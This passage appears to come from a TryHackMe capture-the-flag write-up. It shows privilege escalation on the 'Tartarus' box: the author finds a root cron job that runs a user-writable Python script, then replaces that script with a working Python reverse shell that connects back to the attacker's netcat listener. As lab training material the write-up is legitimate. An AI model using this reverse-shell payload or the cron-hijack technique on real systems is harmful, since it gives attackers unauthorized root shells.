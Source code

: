 Reading the script it looks like something that would be ran via cronjob. Lets see what jobs are on the machine.

```highlight
d4rckh@ubuntu-xenial:/home/d4rckh$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user  command
*/2 *   * * *   root    python /home/d4rckh/cleanup.py
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
d4rckh@ubuntu-xenial:/home/d4rckh$ 
```

Perfect, so that script is being run by root. Lets modify to provide us with another reverses shell.

```highlight
┌─[daz@parrot]─[~/Documents/TryHackMe/Tartarus]
└──╼ $nc -nvlp 8080
listening on [any] 8080 ...
```

First start another netcat listener.

```highlight
d4rckh@ubuntu-xenial:/home/d4rckh$ cat cleanup.py 
# -*- coding: utf-8 -*-
#!/usr/bin/env python

import socket,subprocess,os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<HIDDEN>",8080))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

I grabbed the python reverse shell from [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and replaced the code in the script. Now I just need to wait for the reverse shell.
